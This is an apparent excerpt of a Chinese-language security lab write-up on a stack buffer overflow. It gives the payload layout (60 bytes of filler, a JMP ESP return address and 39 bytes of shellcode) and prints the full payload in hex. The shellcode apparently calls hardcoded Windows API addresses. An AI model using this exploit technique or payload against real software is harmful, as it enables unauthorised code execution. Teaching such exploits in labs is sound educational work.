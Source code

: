 ![image-20221016124654106](2022-10-15-shellcode%E5%AE%9E%E9%AA%8C/image-20221016124654106.png)

构造payload，44+4+4+4+4=60B 任意数据 + 4B JMP ESP地址 + 39B shellcode。

```
34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 37 F2 7A 76 66 81 EC 40 04 33 DB 53 68 62 75 70 74 68 62 75 70 74 8B C4 53 50 50 53 B8 D0 82 80 76 FF D0 53 B8 50 68 B7 75 FF 90 90 90 90 90 90 90 90 90 90
```

![image-20221016211402741](2022-10-15-shellcode%E5%AE%9E%E9%AA%8C/image-20221016211402741.png)

重新运行程序，执行到ret指令是，看到返回地址被替换为jmp esp的地址，执行。
